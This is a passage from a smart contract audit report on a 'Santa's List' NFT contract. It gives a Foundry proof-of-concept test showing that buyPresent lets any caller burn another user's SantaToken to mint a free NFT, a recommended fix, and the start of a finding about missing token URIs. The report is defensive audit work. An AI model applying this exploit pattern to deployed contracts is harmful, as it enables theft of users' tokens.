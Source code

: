 **Impact**

Malicious Actor Can get Free NFT by Burning Other People SantaToken's.

**Proof of Concepts**

the Attack Looks Like this:

```javascript
    function testMaliciousActorBurnsSomeoneElseTokensToReceiveNFT() external {
        address maliciousActor = makeAddr("maliciousActor");

        vm.startPrank(santa);
        santasList.checkList(user, SantasList.Status.EXTRA_NICE);
        santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);
        vm.stopPrank();

        vm.startPrank(user);
        vm.warp(1_703_500_000);
        santasList.collectPresent();
        vm.stopPrank();

        vm.startPrank(maliciousActor);
        santasList.buyPresent(user);
        vm.stopPrank();

        assertEq(santasList.balanceOf(maliciousActor), 1);
        assertEq(santaToken.balanceOf(user), 0);
    }
```

to Run the Test, Run the Following Command in terminal:

```javascript
    forge test --match-test testMaliciousActorBurnsSomeoneElseTokensToReceiveNFT -vvvv
```

**Recommended mitigation**

burn the `msg.sender` SantaToken's and remove `presentReceiver` parameter:

```diff
+   function buyPresent() external {
+       i_santaToken.burn(msg.sender);
        _mintAndIncrement();
    }
```


### [HIGH-6] We do Not Set TOKEN URI for the given tokenId we mint the User, which results in the msg.sender receiving empty ERC721 token that is Not the Santa NFT.

**Description**

As the Title Says, We do Not Set TOKEN URI for the given tokenId we mint the User in `_mintAndIncrement()` function, which results in the msg.sender receiving empty ERC721 token that is Not the Santa NFT. The NFT we Mint  to User has no properties including description, image or anything.
